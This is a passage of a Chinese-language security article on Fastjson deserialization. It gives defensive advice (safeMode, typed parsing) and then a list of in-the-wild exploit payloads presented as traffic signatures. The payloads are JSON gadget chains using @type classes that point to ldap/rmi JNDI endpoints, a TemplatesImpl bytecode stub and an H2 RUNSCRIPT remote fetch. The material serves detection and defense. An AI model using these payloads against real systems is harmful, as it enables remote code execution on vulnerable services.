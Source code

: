 换不了的话。如果不需要用@type特性，就直接升级新版本开启safeMode，不要开启autoType。或者项目内不要使用 `JSON.parse(String)` ，统一使用 `JSON.parseObject(String, Class)` 也可以防御（前面分析过原因，在返回Class之前，会进行类型比较，不通过直接抛出异常）。

## 流量特征

先汇总下目前在野的Payload：

```json
// 低版本常用Payload
{"test":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:8080/Shell","autoCommit":true}}

{"test":{"@type":"org.springframework.beans.factory.config.PropertyPathFactoryBean","targetBeanName":"ldap://localhost:1389/test","propertyPath":"foo","beanFactory":{"@type":"org.springframework.jndi.support.SimpleJndiBeanFactory","shareableResources":["ldap://localhost:1389/test"]}}}

{"rand1":Set[{"@type":"org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor","beanFactory":{"@type":"org.springframework.jndi.support.SimpleJndiBeanFactory","shareableResources":["ldap://localhost:1389/test"]},"adviceBeanName":"ldap://localhost:1389/test"},{"@type":"org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor"}]}

{"test":{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["Your Eval Class Bytecodes"],"_name":"p1n93r","_tfactory":{},"_outputProperties":{}}}

{"rand1":{"@type":"com.mchange.v2.c3p0.JndiRefForwardingDataSource","jndiName":"ldap://localhost:1389/test","loginTimeout":0}}

// 高版本常用Payload
{"test1":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"test2":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1389/Object","autoCommit":true}}

{"test":{"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"ldap://127.0.0.1:1072/Shell"}}

{"test":{"@type":"ch.qos.logback.core.db.DriverManagerConnectionSource","url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8080/inject.sql'"}}

{"test":{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"ldap://localhost:1389/test"}}

{"test": {"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory", "jndiNames":["ldap://localhost:1389/test"], "Realms":[""]}}

{"test": {"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://localhost:1389/test"}}

{"test": {"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://localhost:1389/test"}}}

{"test":{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1389/test"}}}

{"test":{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1389/test"}}}

{"@type":"oracle.jdbc.connector.OracleManagedConnectionFactory","xaDataSourceName":"ldap://127.0.0.1:1072/Exploit1"}

{"@type":"org.apache.commons.configuration2.JNDIConfiguration","prefix":"rmi://127.0.0.1:1072/Exploit1"}

// 以下Payload比较偏门
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:1389/Exploit"}
```